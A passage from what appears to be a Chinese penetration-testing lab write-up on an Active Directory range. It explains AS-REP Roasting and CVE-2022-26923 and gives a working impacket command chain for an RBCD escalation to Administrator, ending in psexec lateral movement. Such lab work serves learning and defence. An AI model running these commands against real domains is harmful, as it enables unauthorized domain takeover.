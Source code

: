 ### AS-REP Roasting 攻击

接下来，进一步获取系统的域控主机，学习一下 AS-REP Roasting 攻击。需要一个前提条件，域控默认不开启`预身份验证`，攻击者可以使用指定的用户去请求票据，向域控制器发送`AS_REQ`请求，此时域控会不作任何验证便将 TGT 票据和加密的 Session-key 等信息返回。因此攻击者就可以对获取到的加密 Session-key 进行离线破解，如果爆破成功，就能得到该指定用户的明文密码。

### CVE-2022–26923 && RBCD Attack 域控

需要学习的知识点

命令如下 `基于资源的约束性委派(RBCD)进行提权`

了解`Active Directory 域服务特权提升漏洞`,该漏洞允许低权限用户在安装了 Active Directory 证书服务服务器角色的默认 Active Directory 环境中将权限提升到域管理员。其原理主要是`唯一性判断`,Windows 系统未对 dNSHostName 做唯一性判断，域普通用户将其属性嵌入到证书中从而提升为域控

```plain
# 基于资源的约束性委派 (RBCD) 进行提权
echo "172.22.15.35 XR-0687.xiaorang.lab" >> /etc/hosts
# 通过 impacket-addcomputer 添加机器用户 hacker1/Admin@123
proxychains -q impacket-addcomputer xiaorang.lab/lixiuying:'winniethepooh' -dc-ip 172.22.15.13 -dc-host xiaorang.lab -computer-name 'hacker1$' -computer-pass 'Admin@123'
# 将创建的机器用户 hacker1 的 SID 添加到 XR-0687 机器的 msDS-AllowedToActOnBehalfOfOtherIdentity 属性
proxychains rbcd.py xiaorang.lab/lixiuying:'winniethepooh' -dc-ip 172.22.15.13 -action write -delegate-to 'XR-0687$' -delegate-from 'hacker1$'
# 发起资源约束委派请求 ST 票据
proxychains impacket-getST xiaorang.lab/'hacker1$':'Admin@123' -dc-ip 172.22.15.13 -spn cifs/XR-0687.xiaorang.lab -impersonate Administrator
# 导入票据
export KRB5CCNAME=Administrator.ccache
# 通过 psexec 无密码连接横向
proxychains -q impacket-psexec -k -no-pass -dc-ip 172.22.15.13 administrator@XR-0687.xiaorang.lab -codec gbk
```

[![](assets/1709193375-be2c4398bbf395f1e6ceb7ce0d1e15c7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227204914-9c9b7622-d56e-1.png)

`AD域权限提升漏洞(CVE-2022-26923)`  
渗透主机 `172.22.15.18(XR-CA.xiaorang.lab)`，整数服务漏洞  
大致流程如下  
下载：[https://github.com/ly4k/Certipy/](https://github.com/ly4k/Certipy/)
